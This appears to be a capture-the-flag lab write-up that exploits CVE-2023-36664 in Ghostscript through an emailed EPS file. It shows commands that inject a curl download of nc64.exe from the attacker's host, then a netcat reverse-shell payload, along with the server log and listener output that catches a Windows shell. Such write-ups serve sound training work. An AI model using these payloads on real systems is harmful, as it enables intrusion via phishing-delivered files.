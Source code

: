The round cube web server was found to be vulnerable to CVE-2023-36664 using this POC:
https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection

I was able to gain a reverse shell into the windows server 

![[Pasted image 20240407202001.png]]

The following code was injected into the file.eps

1. The netcat binary was downloaded to the target using the following command: 
```bash
python3 CVE_2023_36664_exploit.py --inject --payload "curl http://10.10.14.28:8000/nc64.exe --output nc64.exe" --filename file.eps

```
This file was then sent to dr browns email address
2. A python simple server was setup so that the file could be download
```shell
python3 -m http.server 8000                                                                                                       
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.241 - - [07/Apr/2024 15:13:53] "GET /nc64.exe HTTP/1.1" 200 -
```
3. After the file was downloaded the file.eps was injected with the following payload inorder to obtain a reverse shell
```shell
python3 CVE_2023_36664_exploit.py --inject --payload "nc64.exe 10.10.14.28 7001 -e cmd.exe" --filename file.eps                   
[+] Payload successfully injected into file.eps.

```
This file was sent to the same email address as above and a netcat listener was setup to catch the reverse shell
4. The netcat listener catching the reverse shell
```shell
nc -lvnp 7001
listening on [any] 7001 ...
connect to [10.10.14.28] from (UNKNOWN) [10.10.11.241] 6330
Microsoft Windows [Version 10.0.17763.4974]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\drbrown.HOSPITAL\Documents>l
```